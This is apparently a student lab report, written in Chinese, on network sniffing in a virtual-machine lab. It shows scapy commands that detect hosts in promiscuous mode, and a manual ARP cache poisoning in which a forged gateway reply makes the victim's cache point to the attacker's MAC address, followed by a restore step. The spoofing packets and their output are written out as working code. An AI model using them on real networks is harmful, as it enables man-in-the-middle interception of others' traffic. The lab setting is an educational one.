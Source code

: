 # 网络监听实验报告

## 网络拓扑
![](./img/拓扑.png)

gateway Debian
192.168.56.113

Attacker Kali
172.16.111.116


Victim Kali
172.16.111.111
## 实验环境配置

在Attacker上安装scapy

```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```

## 实验一 检测互联网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用:
# 在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。
ip link show eth0 

#2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#    link/ether 08:00:27:0e:34:8d brd ff:ff:ff:ff:ff:ff

```
![](./img/linkshow.png) 

- 
```
# 在 scapy 的交互式终端输入以下代码回车执行
# 改函数的作用为查看混杂模式主机而发送ARP请求
pkt = promiscping("172.16.111.111")

# Begin emission:
# Finished sending 1 packets.

# Received 0 packets, got 0 answers, remaining 1 packets
```

- 也就是说，当目标主机的混杂模式关闭时，攻击者使用“promiscping”构造的数据包得不到answer，无法侦测到目标主机。

![](./img/scapy.png)

- 回到受害者主机上开启网卡的『混杂模式』
- 注意上述输出结果里应该没有出现 PROMISC 字符串
- 手动开启该网卡的「混杂模式」

```
sudo ip link set eth0 promisc on
```
此时的scapy输出如下图

![](./img/scapy1.png)

![](./img/pkt.png)

- 对比前后两次“promiscping”的输出，可知，在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。后者就是被动监听。

实验结束后要记得关闭victim的混杂模式

```
sudo ip link set eth0 promisc off
```

## 实验二 手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成。
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:0e:34:8d
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:0e:34:8d
     psrc= 172.16.111.116
     hwdst= 00:00:00:00:00:00
     pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

#Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets


# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
# .
# Sent 1 packets.
```
![伪造ARP](./img/伪造ARP.png)

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址:
```
172.16.111.116 dev eth0 lladdr 08:00:27:0e:34:8d STALE
172.16.111.1 dev eth0 lladdr 08:00:27:8a:57:4c STALE

```
按理来说应该是，可是并没有被替换，搜索资料以后，将上面发送报文的sendp函数改为send函数，得到如下结果，说明arp投毒成功：
```
172.16.111.116 dev eth0 lladdr 08:00:27:0e:34:8d STALE
172.16.111.1 dev eth0 lladdr 08:00:27:0e:34:8d REACHABLE

```
![](./img/succeed.png)
回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:8a:57:4c", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")

send(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。
```
ping 172.16.111.1
ip neigh
```
![](./img/restore.png)

## 参考文献

- [第四章课本内容](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [send与sendp官档](https://scapy.readthedocs.io/en/latest/usage.html)